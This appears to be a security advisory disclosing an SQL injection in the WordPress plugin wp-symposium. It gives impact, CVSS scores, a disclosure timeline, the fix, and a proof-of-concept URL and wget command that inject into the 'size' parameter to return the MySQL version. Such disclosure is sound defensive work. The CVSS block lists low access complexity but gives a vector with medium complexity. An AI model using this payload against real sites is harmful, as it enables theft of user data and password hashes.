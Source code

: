 ```
The SQL injection allows (very easily) to retrieve all the database content, which includes users details and password hashes.📌 An attacker may be able to crack users' password hashes and log in as them. If an administrator user password is obtained, then the attacker could take complete control of the Wordpress installation. Collected information may also allow further attacks.

4. Common Vulnerability Scoring System
* Exploitability Metrics
- Access Vector (AV) : Network (AV:N)
- Access Complexity (AC) : Low (AC:L)
- Authentication (Au) : None (Au:N)

* Impact Metrics
- Confidentiality Impact (C) : Partial (C:P)
- Integrity Impact (I) : Partial (I:P)
- Availability Impact (A) : Partial (A:P)

* CVSS v2 Vector (AV:N/AC:M/Au:N/C:P/I:P/A:P)
- CVSS Base Score : 7.5
- Impact Subscore 6.4
- Exploitability Subscore 10

5. Proof of Concept

PoC URL : http://localhost/<WP-path>/wp-content/plugins/wp-symposium/get_album_item.php?size=version%28%29%20;%20--📌
PoC Command (Unix) : wget "http://localhost/<WP-path>/wp-content/plugins/wp-symposium/get_album_item.php?size=version%28%29%20;%20--" -O output.txt📌

In the content of the HTTP response you will find the MySQL version, for example :
5.5.44-0+deb7u1

6. Vulnerability Timeline
2015-05    : Vulnerability identified
2015-07-30 : Vendor informed about this issue
2015-07-30 : Vendor confirms the issue
2015-08-04 : Ask for a delay to deploy the fix
2015-08-04 : Response : 1-2 days (needs testing)
2015-08-07 : Update to version 15.8 is available
2015-08-10 : Disclosure of this document (a diff on the patch will trivially reveal the issue)

7. Solution
Update Wordpress plugin wp-symposium to the latest version, which is 15.8 at the date I am writing this.

8. Personal Notes

I am not a security professional, just a fan of computer security.
If you have any questions/remarks, feel free to contact me.
I'm interesting in any discussion/advice/question/criticism about security/exploits/programming :-) 
```

